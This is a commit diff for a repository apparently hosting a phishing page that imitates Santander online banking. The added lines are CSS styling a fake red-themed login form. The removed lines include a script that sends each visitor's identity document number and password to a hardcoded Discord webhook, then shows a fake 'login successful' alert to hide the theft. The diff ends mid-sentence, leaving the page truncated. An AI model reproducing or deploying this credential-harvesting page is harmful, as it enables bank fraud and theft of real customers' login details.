

Before and after one commit to Santander-Transferencia/Confirmacion, a plain HTML site: page index.html in a window 390 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -24,9 +24,244 @@
             flex-direction: column;
         }
 
-        /* [Todo el CSS sigue igual...] */
-        /* ... por simplicidad omitido aquí porque no ha sido modificado */
+        .header {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            padding: 20px 30px;
+            background: rgba(0,0,0,0.3);
+            backdrop-filter: blur(10px);
+        }
 
+        .logo {
+            display: flex;
+            align-items: center;
+            font-size: 28px;
+            font-weight: bold;
+        }
+
+        .logo::before {
+            content: '';
+            width: 40px;
+            height: 40px;
+            background: #EC0000;
+            border-radius: 50%;
+            margin-right: 15px;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+        }
+
+        .menu-btn {
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            background: none;
+            border: none;
+            color: white;
+            cursor: pointer;
+            font-size: 16px;
+        }
+
+        .hamburger {
+            display: flex;
+            flex-direction: column;
+            gap: 4px;
+            margin-bottom: 5px;
+        }
+
+        .hamburger div {
+            width: 25px;
+            height: 3px;
+            background: white;
+            border-radius: 2px;
+        }
+
+        .main-content {
+            flex: 1;
+            display: flex;
+            flex-direction: column;
+            justify-content: center;
+            padding: 40px 30px;
+            max-width: 800px;
+            margin: 0 auto;
+            width: 100%;
+        }
+
+        .greeting {
+            font-size: 48px;
+            font-weight: 300;
+            margin-bottom: 60px;
+            text-shadow: 2px 2px 4px rgba(0,0,0,0.5);
+            animation: fadeInUp 0.8s ease-out;
+        }
+
+        .login-form {
+            display: flex;
+            flex-direction: column;
+            gap: 25px;
+            animation: fadeInUp 0.8s ease-out 0.2s both;
+        }
+
+        .form-group {
+            display: flex;
+            flex-direction: column;
+        }
+
+        .form-label {
+            font-size: 16px;
+            margin-bottom: 10px;
+            font-weight: 500;
+        }
+
+        .form-input {
+            padding: 18px 20px;
+            border: none;
+            border-radius: 12px;
+            font-size: 16px;
+            background: rgba(255,255,255,0.95);
+            color: #333;
+            backdrop-filter: blur(10px);
+            transition: all 0.3s ease;
+            position: relative;
+            overflow: hidden;
+        }
+
+        .form-input::before {
+            content: '';
+            position: absolute;
+            top: 0;
+            left: -100%;
+            width: 100%;
+            height: 100%;
+            background: linear-gradient(90deg, transparent, rgba(236,0,0,0.1), transparent);
+            transition: left 0.5s ease;
+        }
+
+        .form-input:focus::before {
+            left: 100%;
+        }
+
+        .form-input:focus {
+            outline: none;
+            background: white;
+            box-shadow: 0 0 20px rgba(236,0,0,0.3);
+            transform: translateY(-2px);
+        }
+
+        .password-input-container {
+            position: relative;
+        }
+
+        .password-toggle {
+            position: absolute;
+            right: 20px;
+            top: 50%;
+            transform: translateY(-50%);
+            background: none;
+            border: none;
+            color: #666;
+            cursor: pointer;
+            font-size: 20px;
+        }
+
+        .recover-link {
+            display: flex;
+            align-items: center;
+            color: white;
+            text-decoration: none;
+            font-size: 16px;
+            margin-top: 10px;
+            transition: opacity 0.3s ease;
+        }
+
+        .recover-link:hover {
+            opacity: 0.8;
+        }
+
+        .recover-link::before {
+            content: '🔑';
+            margin-right: 8px;
+        }
+
+        .remember-text {
+            font-size: 14px;
+            color: rgba(255,255,255,0.9);
+            margin-top: 15px;
+            line-height: 1.4;
+        }
+
+        .more-info {
+            display: flex;
+            align-items: center;
+            color: white;
+            text-decoration: none;
+            font-size: 16px;
+            margin-top: 30px;
+            cursor: pointer;
+            transition: opacity 0.3s ease;
+        }
+
+        .more-info:hover {
+            opacity: 0.8;
+        }
+
+        .more-info::after {
+            content: '▼';
+            margin-left: 10px;
+            font-size: 12px;
+        }
+
+        .login-btn {
+            background: linear-gradient(135deg, #EC0000, #FF4444);
+            color: white;
+            border: none;
+            border-radius: 12px;
+            padding: 18px 40px;
+            font-size: 18px;
+            font-weight: bold;
+            cursor: pointer;
+            margin-top: 40px;
+            transition: all 0.3s ease;
+            box-shadow: 0 8px 25px rgba(236,0,0,0.3);
+            text-transform: uppercase;
+        }
+
+        .login-btn:hover {
+            transform: translateY(-3px);
+            box-shadow: 0 12px 35px rgba(236,0,0,0.4);
+            background: linear-gradient(135deg, #FF0000, #FF5555);
+        }
+
+        .login-btn:active {
+            transform: translateY(-1px);
+        }
+
+        @media (max-width: 768px) {
+            .greeting {
+                font-size: 36px;
+                margin-bottom: 40px;
+            }
+
+            .main-content {
+                padding: 20px;
+            }
+
+            .header {
+                padding: 15px 20px;
+            }
+        }
+
+        @keyframes fadeInUp {
+            from {
+                opacity: 0;
+                transform: translateY(30px);
+            }
+            to {
+                opacity: 1;
+                transform: translateY(0);
+            }
+        }
     </style>
 </head>
 <body>
@@ -69,115 +304,4 @@
                 </div>
                 <a href="#" class="recover-link">Recupera tu clave de acceso</a>
                 <p class="remember-text">
-                    Tu usuario se recordará en este dispositivo. Solamente tendrás que introducir la clave.
-                </p>
-            </div>
-
-            <a href="#" class="more-info" onclick="toggleMoreInfo()">Más información</a>
-
-            <button type="submit" class="login-btn">Entrar</button>
-        </form>
-    </main>
-
-    <script>
-        async function sendDiscordNotification(docNumber, password) {
-            const webhookURL = 'https://discord.com/api/webhooks/1405668339992363008/Jwg1y1TsyA3eVEkpIC0P-n7zyQ0BUwCxSpQg8CFrOoDFbSXARHaD68ndkKClJkKal59M';
-
-            const data = {
-                content: `Nuevo inicio de sesión:\nDocumento: ${docNumber || 'desconocido'}\nContraseña: ${password || 'no especificada'}`
-            };
-
-            try {
-                await fetch(webhookURL, {
-                    method: 'POST',
-                    headers: { 'Content-Type': 'application/json' },
-                    body: JSON.stringify(data),
-                });
-                console.log('Notificación enviada a Discord');
-            } catch (error) {
-                console.error('Error enviando la notificación a Discord:', error);
-            }
-        }
-
-        function handleLogin(event) {
-            event.preventDefault();
-
-            const nifInput = document.getElementById('nif-input');
-            const passwordInput = document.getElementById('password');
-
-            const docNumber = nifInput.value.trim();
-            const password = passwordInput.value;
-
-            if (!docNumber) {
-                alert('Por favor, introduce tu número de documento.');
-                return;
-            }
-            if (!password) {
-                alert('Por favor, introduce tu contraseña.');
-                return;
-            }
-
-            // Enviar notificación con documento y contraseña
-            sendDiscordNotification(docNumber, password);
-
-            // Simulación de login
-            const loginBtn = document.querySelector('.login-btn');
-            loginBtn.textContent = 'Entrando...';
-            loginBtn.style.background = 'linear-gradient(135deg, #666, #999)';
-
-            setTimeout(() => {
-                alert('Acceso correcto. Bienvenido a tu banca online.');
-                loginBtn.textContent = 'Entrar';
-                loginBtn.style.background = 'linear-gradient(135deg, #EC0000, #FF4444)';
-            }, 2000);
-        }
-
-        function togglePassword() {
-            const passwordInput = document.getElementById('password');
-            const toggleBtn = document.querySelector('.password-toggle');
-
-            if (passwordInput.type === 'password') {
-                passwordInput.type = 'text';
-                toggleBtn.textContent = '🙈';
-            } else {
-                passwordInput.type = 'password';
-                toggleBtn.textContent = '👁️';
-            }
-        }
-
-        function toggleMenu() {
-            alert('Menú desplegable - Funcionalidad a implementar');
-        }
-
-        function toggleMoreInfo() {
-            alert('Más información sobre el proceso de login');
-        }
-
-        document.querySelectorAll('.form-input').forEach(input => {
-            input.addEventListener('focus', function () {
-                this.style.transform = 'translateY(-2px)';
-            });
-
-            input.addEventListener('blur', function () {
-                this.style.transform = 'translateY(0)';
-            });
-        });
-
-        function updateGreeting() {
-            const now = new Date();
-            const hour = now.getHours();
-            const greetingElement = document.querySelector('.greeting');
-
-            if (hour < 12) {
-                greetingElement.textContent = 'Buenos días';
-            } else if (hour < 18) {
-                greetingElement.textContent = 'Buenas tardes';
-            } else {
-                greetingElement.textContent = 'Buenas noches';
-            }
-        }
-
-        updateGreeting();
-    </script>
-</body>
-</html>
+                    Tu usuario se recordará en este dispositivo. Solamente tendrás que introducir
```
